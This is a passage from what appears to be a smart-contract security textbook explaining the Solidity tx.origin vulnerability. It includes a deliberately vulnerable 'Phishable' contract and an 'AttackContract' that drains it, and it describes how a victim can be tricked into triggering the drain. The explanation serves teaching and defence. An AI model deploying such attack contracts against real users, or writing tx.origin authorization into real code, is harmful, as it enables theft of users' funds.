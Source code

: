 ### The Vulnerability

<span class="indexterm"></span> <span class="indexterm"></span>Contracts
that authorize users using the `tx.origin` variable are typically
vulnerable to phishing attacks that can trick users into performing
authenticated actions on the vulnerable contract.

Consider the simple contract in [example_title](#phishable_security).

``` solidity
contract Phishable {
    address public owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () external payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance);
    }
}
```

Notice that on line 11 the contract authorizes the `withdrawAll`
function using `tx.origin`. This contract allows for an attacker to
create an attacking contract of the form:

``` solidity
import "Phishable.sol";

contract AttackContract {

    Phishable phishableContract;
    address attacker; // The attacker's address to receive funds

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phishableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payable {
        phishableContract.withdrawAll(attacker);
    }
}
```

The attacker might disguise this contract as their own private address
and socially engineer the victim (the owner of the `Phishable` contract)
to send some form of transaction to the address—perhaps sending this
contract some amount of ether. The victim, unless careful, may not
notice that there is code at the attacker’s address, or the attacker
might pass it off as being a multisignature wallet or some advanced
storage wallet (remember that the source code of public contracts is not
available by default).
